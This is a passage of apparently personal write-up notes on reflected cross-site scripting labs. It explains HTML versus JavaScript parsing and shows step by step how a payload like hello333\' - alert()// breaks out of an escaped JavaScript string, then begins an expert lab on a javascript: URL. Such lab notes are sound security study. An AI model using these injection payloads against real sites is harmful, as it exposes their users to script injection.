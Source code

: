 The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script (`<script>alert(33)</script>`) being parsed and executed in the normal way
(BTW that closing single quote will be put inside of the HTML context and will be displayed on the page)

### Breaking out of a JavaScript string
### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Both these labs are solved in the same way but the first lab is a bit simpler.

We've got a search input and it's value is reflected inside a js variable.
So if we put `<input value="hello333">`
It'll be reflected in: `var ff = 'hello333'`
We want to get out of that js string and execute our script, so we can try:
`<input value="hello333' + alert()">`
but in js `+` means concatination, therefore we use `-` 
`<input value="hello333' - alert()">`
We see that it is being escaped:
`var ff = 'hello333\' - alert()'`
So we try to provide: 
`<input value="hello333\' - alert()">`
And we get:
`var ff = 'hello333\\' - alert()'`
It worked well but we still have this closing single quote after `alert()` which breaks our whole script
Therfore we add `//` which will comment out the rest of the js string and inside of our input we'll have:
`hello333\' - alert()//` (or the same in html style: `<input value="hello333\' - alert()//">`)
Which will result in:
```bash
<script>
...
var ff = 'hello333\\' - alert()//'
...
</script>
```

### EXPERT Lab: Reflected XSS in a JavaScript URL with some characters blocked
```
https://fff.web-security-academy.net/post?postId=2
```
Leads to a blog with id `2`
Inside the blog page we see:
```
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2'}).finally(_ => window.location = '/')">Back to Blog</a>
```
And `?postId=` from url is reflected inside the fetch. So we can check our url for xss
**Note we probably need to do all the stuff url-encoded, but for the sake of simplicity here we are not gonna url-encode stuff...**

